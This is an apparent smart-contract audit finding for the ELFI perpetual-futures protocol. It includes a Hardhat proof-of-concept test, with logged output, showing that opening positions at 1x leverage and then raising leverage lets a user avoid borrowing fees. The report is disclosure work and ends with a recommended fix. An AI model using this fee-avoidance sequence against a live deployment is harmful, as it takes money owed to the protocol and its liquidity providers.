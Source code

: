Wonderful Tangerine Snake

medium

# Users can avoid paying borrowing fees

## Summary
[**realizedBorrowingFeeDelta**](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L82) is used to determine the amount of [**realizedBorrowingFee** ](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L86)base on the current Position [**initialMargin** and **leverage**](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L83)


However, the borrowing fee is not updated when the position leverage is changed
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/PositionMarginProcess.sol#L134

## Vulnerability Detail
Consider the following scenario:
To avoid paying the borrowing fee, the user place an order with 1x leverage, then uses the **executeUpdateLeverageRequest** function to change the leverage.

1.**user0** place order 1:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/IncreasePositionProcess.sol#L84
orderMargin=0.1ETH ,
leverage =10000,
[realizedBorrowingFee](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L83) =0
time.increase(199)

2.**user0** place order 2:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/IncreasePositionProcess.sol#L84
orderMargin=0.1ETH ,
leverage =10000,
[realizedBorrowingFee](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L83) =0

3.**user0** update leverage:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/PositionFacet.sol#L108
leverage =800000
realizedBorrowingFee =0



POC:
```solidity
import { expect } from 'chai'
import { Fixture, deployFixture } from '@test/deployFixture'
import { ORDER_ID_KEY, OrderSide, OrderType, PositionSide, StopType } from '@utils/constants'
import { precision } from '@utils/precision'
import { deposit } from '@utils/deposit'
import {
  AccountFacet,
  FeeFacet,
  MarketFacet,
  MockToken,
  OrderFacet,
  ConfigFacet,
  PoolFacet,
  PositionFacet,
  TradeVault,
} from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { time } from "@nomicfoundation/hardhat-network-helpers";
import { ethers } from 'hardhat'
import { Contract } from 'ethers'
import { handleOrder } from '@utils/order'
import { handleMint } from '@utils/mint'
import { account } from '@utils/account'
import { pool } from '@utils/pool'
import { oracles } from '@utils/oracles'
import { handleUpdateLeverage, handleUpdateMargin } from '@utils/position'


describe(' Order Process', function () {
    let fixture: Fixture
    let tradeVault: TradeVault,
      marketFacet: MarketFacet,
      orderFacet: OrderFacet,
      poolFacet: PoolFacet,
      accountFacet: AccountFacet,
      positionFacet: PositionFacet,
      feeFacet: FeeFacet,
      configFacet: ConfigFacet
    let user0: HardhatEthersSigner, user1: HardhatEthersSigner, user2: HardhatEthersSigner, user3: HardhatEthersSigner
    let diamondAddr: string,
      tradeVaultAddr: string,
      wbtcAddr: string,
      wethAddr: string,
      solAddr: string,
      usdcAddr: string
    let btcUsd: string, ethUsd: string, solUsd: string, xBtc: string, xEth: string, xUsd: string
    let wbtc: MockToken, weth: MockToken, sol: MockToken, usdc: MockToken
  
    beforeEach(async () => {
      fixture = await deployFixture()
      ;({ tradeVault, marketFacet, poolFacet, orderFacet, configFacet, accountFacet, positionFacet, feeFacet } =
        fixture.contracts)
      ;({ user0, user1, user2, user3 } = fixture.accounts)
      ;({ btcUsd, ethUsd, solUsd } = fixture.symbols)
      ;({ xBtc, xEth, xUsd } = fixture.pools)
      ;({ wbtc, weth, sol, usdc } = fixture.tokens)
      ;({ diamondAddr, tradeVaultAddr } = fixture.addresses)
      wbtcAddr = await wbtc.getAddress()
      wethAddr = await weth.getAddress()
      solAddr = await sol.getAddress()
      usdcAddr = await usdc.getAddress()
  
      const btcTokenPrice = precision.price(25000)
      const btcOracle = [{ token: wbtcAddr, minPrice: btcTokenPrice, maxPrice: btcTokenPrice }]
      await handleMint(fixture, {
        stakeToken: xBtc,
        requestToken: wbtc,
        requestTokenAmount: precision.token(100),
        oracle: btcOracle,
      })
  
      const ethTokenPrice = precision.price(1600)
      const ethOracle = [{ token: wethAddr, minPrice: ethTokenPrice, maxPrice: ethTokenPrice }]
      await handleMint(fixture, {
        requestTokenAmount: precision.token(500),
        oracle: ethOracle,
      })
  
      const usdtTokenPrice = precision.price(1)
      const usdcTokenPrice = precision.price(101, 6)
      const daiTokenPrice = precision.price(99, 7)
      const usdOracle = [
        { token: usdcAddr, minPrice: usdcTokenPrice, maxPrice: usdcTokenPrice },
      ]
  
      await handleMint(fixture, {
        requestTokenAmount: precision.token(100000, 6),
        stakeToken: xUsd,
        requestToken: usdc,
        oracle: usdOracle,
      })
  
    })
  
    it('poc', async function () {
      const orderMargin1 = precision.token(1, 17) // 0.1ETH
      const ethPrice0 = precision.price(1800)
      const usdcPrice = precision.price(99, 6)
      const ethOracle0 = [{ token: wethAddr, minPrice: ethPrice0, maxPrice: ethPrice0 },
        { token: usdcAddr, targetToken: ethers.ZeroAddress, minPrice: usdcPrice, maxPrice: usdcPrice }]
  
      await handleOrder(fixture, {
        orderMargin: orderMargin1,
        oracle: ethOracle0,
        leverage: precision.rate(1),
      })
  
      const defaultMarginMode = false

     
      time.increase(199);
  
      const position1 = await positionFacet.getSinglePosition(user0.address, ethUsd, wethAddr, defaultMarginMode)
     console.log("realizedBorrowingFee, after handle Order 1: ",position1.positionFee.realizedBorrowingFee)
    //  console.log("realizedFundingFee1",position1.positionFee.realizedFundingFee)
     const orderMargin2 = precision.token(1, 17) // 0.1ETH
     const usdcAmount = precision.token(2000, 6)
      
     await handleOrder(fixture, {
      orderMargin: orderMargin2,
      oracle: ethOracle0,
      leverage: precision.rate(1),
    
    })
    const position2 = await positionFacet.getSinglePosition(user0.address, ethUsd, wethAddr, defaultMarginMode)
    console.log("realizedBorrowingFee ,after handle Order 2: ",position2.positionFee.realizedBorrowingFee)

    time.increase(199);
     // 
     const ethPrice1 = precision.price(1789)
     const ethOracle1 = [{ token: wethAddr, minPrice: ethPrice1, maxPrice: ethPrice1 }]
     const addMargin = precision.token(3, 16) //0.03ETH
     const executionFee = precision.token(2, 15)
    

      await handleUpdateLeverage(fixture, {
        symbol: ethUsd,
        isLong: true,
        isCrossMargin: defaultMarginMode,
        leverage: precision.rate(8), // 8 X leverage
        addMarginAmount: addMargin,
        marginToken: weth,
        oracle: ethOracle1,
        executionFee: executionFee,
      })
      const position3 = await positionFacet.getSinglePosition(user0.address, ethUsd, wethAddr, defaultMarginMode)
    console.log("realizedBorrowingFee ,after Update Leverage : ",position3.positionFee.realizedBorrowingFee)
    console.log("position leverage,after Update Leverage : ",position3.leverage)
    expect(position3.leverage).to.equals(precision.rate(8))
  
    })
    
  })

```
realizedBorrowingFee, after handle Order 1:  0n
realizedBorrowingFee ,after handle Order 2:  0n
realizedBorrowingFee ,after Update Leverage :  0n
position leverage,after Update Leverage :  800000n
## Impact
Users can avoid paying borrowing fees

## Code Snippet

## Tool used

Manual Review

## Recommendation
update Position Leverage should take into account borrowing fee